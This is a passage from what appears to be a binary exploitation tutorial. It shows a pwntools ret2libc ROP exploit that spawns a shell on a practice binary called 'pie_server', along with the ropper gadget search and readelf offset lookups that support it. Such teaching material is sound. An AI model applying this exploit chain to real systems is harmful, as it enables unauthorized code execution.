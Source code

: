 ```python

libc.address = libc_base

rop = ROP(libc)
rop.system(next(libc.search(b'/bin/sh\x00')))

payload = flat({
    offset: [
        rop.find_gadget(['ret'])[0],
        rop.chain()
    ],
})

p.sendline(payload)
p.interactive()
```

<mark style="color:yellow;">Be aware</mark>, you will more than likely need to change your exploit because you will have different environment variables and addresses/offsets in your `libc` library.

Obtain ROP Gadget via `ropper`:

<pre><code><strong>ropper --file pie_server --search "pop rdi"
</strong>[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: pie_server
0x00000000000012ab: pop rdi; ret;
</code></pre>

* `0x12ab`

Remember, we want to `POP` the **GOT** of `puts()` into the `RDI` register as a first parameter, that is why we need a ROP Gadget.

But, we can't use <mark style="color:yellow;">`POP RDI`</mark> until we set the leaked address.

### Manually Finding Offsets

`libc` Base:

<pre><code><strong>readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep puts
</strong>524: 000000000012ccd0   660 FUNC    GLOBAL DEFAULT   15 putsgent@@GLIBC_2.10
</code></pre>

Obtain `system()` and `"/bin/sh"` addresses:

<pre><code><strong>readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system
</strong>1481: 0000000000050d60    45 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.2.5

strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
1d8698 /bin/sh
</code></pre>
